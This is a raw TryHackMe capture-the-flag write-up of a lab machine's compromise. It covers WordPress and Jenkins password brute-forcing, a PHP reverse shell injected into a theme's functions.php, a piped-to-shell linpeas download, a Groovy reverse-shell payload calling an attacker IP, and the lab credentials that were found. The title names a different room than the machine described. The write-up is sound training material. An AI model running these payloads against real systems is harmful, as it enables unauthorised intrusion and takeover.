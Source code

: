 # Relevant [TryHackMe]

<sub>_This is a raw write-up. It accounts for every step taken throughout the challenge, whether or not it was successful. So, expect a lot of rabbitholes and frustration. At the time of writing this, I don't even know if I've solved the challenge myself. You might see a flag somewhere titled **<sup>Assisted by [write-up link]</sup>** which means I used someone else's write-up to complete the challenge. Being a responsible learner, I'm trying my best to accept as little help as possible and only when I'm out of ideas._</sub> 

## _Manual Exploitation_

Let's define the `targ3t` variable to reuse later:

```
targ3t=10.10.84.237
```

Let's perform an `nmap` scan and check for open ports:

```
nmap -A -Pn $targ3t -oN nmap.scan
```

Seems like there's only `22/tcp` and `80/tcp` open and operational. I'll launch a complete scan, just in case:

```
nmap -p- $target -oN nmap.full.scan -vv
```

This is supposed to iterate every single port and confirm if its status.

No more open ports, I'll run another scan for vulnerabilities, on these two ports specifically:

```
nmap --script vuln -p 22,80 $targ3t -oN nmap.vuln.scan -vv
```

Only `http-enum` script for port `80` applied and found several paths:

```
| http-enum:
|   /blog/: Blog
|   /phpmyadmin/: phpMyAdmin
|   /wordpress/wp-login.php: Wordpress login page.
|_  /blog/wp-login.php: Wordpress login page.
```

It clearly has a `/blog/wp-login.php`, although `http-wordpress-users` script returned an error:

```
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
```

I guess I can use a `wpscan` to see if there are any further vulnerabilities concerning wordpress specifically:

```
wpscan -e -t 10 --detection-mode aggressive --plugins-detection aggressive --plugins-version-detection aggressive --url $targ3t/blog -o wp.scan -v
```

And I'll also launch a similar one for `$targ3t/wordpress`:

```
wpscan -e -t 10 --detection-mode aggressive --plugins-detection aggressive --plugins-version-detection aggressive --url $targ3t/wordpress -o wp1.scan -v
```

Both scans delivered interesting results. For `/blog` path we get and `xml-rpc` vulnerability and several reference to metasploit modules, as well as an `admin` user's existence through brute-force. Much of the same (except for `admin`) was found on the `/wordpress` path. Both paths have a `readme.html` file accessible.

Now that we have to browse the site, let's add a recommended line to the `/etc/hosts` for this machine:

```
10.10.84.237    internal.thm
```

Now let's go to each `readme.html` file:

```
firefox internal.thm/blog/readme.html
firefox internal.thm/wordpress/readme.html
```

Both files are identical and although they don't link to any vulnerable places, it seems like we shouldn't be seeing this at all. Let's continue with our enumeration:

```
feroxbuster -u http://$targ3t -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o ferox.scan
```

Some paths are accessible but besides the ones we already had discovered, none particularly stand out. To get back to `xml-rpc` vulnerability discovered by `wpscan`, let's see if we can use this scanner: `auxiliary/scanner/http/wordpress_xmlrpc_login`:

```
msfconsole -q -x "use auxiliary/scanner/http/wordpress_xmlrpc_login; set RHOSTS 10.10.84.237; set TARGETURI /blog; set USERNAME admin; set PASS_FILE /usr/share/wordlists/rockyou.txt; run"
```

And it found a password: 

```
[+] 10.10.84.237:80 - Success: 'admin:my2boys' 
```

And going to:

```
firefox internal.thm/blog/wp-login
```

Opens up an admin interface for this user. Manually enumerating the admin panel tells me it won't let me upload a php file for security reasons and it doesn't let me upload images either, due to an error about writing files to server's indicated directory. Theme editor lets us customize front end along with `functions.php`. I'll give a small edit to this file. I'll add the following line before all of the code:

```
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.11.100.243/9876 0>&1'"); __halt_compiler();
```

Start a `netcat` listener on my machine:

```
nc -lvnp 9876
```

And save this edit and go to `internal.thm/blog`

And we have a `www-data` shell! We can't visit any home directories with it though. Let's see if we have any privileged binaries:

```
find / -perm /4000 2>/dev/null
```

We can't use sudo, so these aren't very useful to us. Let's try linpeas this time:

```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

I looked through each red string, tried everything, but nothing is worthwhile or working.

<sup>_Assisted by [write-up](https://medium.com/swlh/tryhackme-internal-walkthrough-fdc6c4b569bd):_</sup> I guess we have to run these general commands too from time to time:

```
python -c "import pty; pty.spawn('/bin/bash')"
cd /
find / -type f -name *.txt 2>/dev/null
```

The very first result is `/opt/wp-save.txt`

```
cat /opt/wp-save.txt
```

This returns the user:password pair of one of the users on this machine:

```
ssh aubreanna@internal.thm
```

We're in. There's a `user.txt` file in the home directory:

```
cat user.txt
```

There goes our first flag. There's another file in the directory:

```
cat jenkins.txt
```

It says some `internal Jenkins service is running on 172.17.0.2:8080` Which means it is running as localhost on this server, and only accessible to this server. Let's use SSH tunneling to circumvent this:

```
ssh -L 9876:172.17.0.2:8080 aubreanna@internal.thm
```

Now we need to visit this tunnelled Jenkins service on our local machine:

```
firefox localhost:9876
```

And there it is, the login form. Let's try to brute force it:

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 9876 127.0.0.1 http-post-form '/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid' -V
```

The password for `admin` appears to be `__spongebob__`. Now let's log in.

This part is more or less straightforward, we need to go to a __Script Console__ and inject a reverse shell script in Groovy. In this case I just borrowed one from [PayloadsAllThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#groovy):

```
String host="10.11.100.243";
int port=4443;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

And start a reverse shell on our host machine:

```
nc -lvnp 4443
```

And when we hit run at the script console, we get the shell back in netcat. 

Now let's hit the same search command we used previously to get `aubreanna` credentials:

```
find / -type f -name *.txt 2>/dev/null
```

The very first result is `/opt/note.txt`, which discloses `root` password:

```
root:tr0ub13guM!@#123
```

Let's use it to ssh into it:

```
ssh root@internal.thm
```

And once we're in:

```
cat /root/root.txt
```

There goes our root flag!
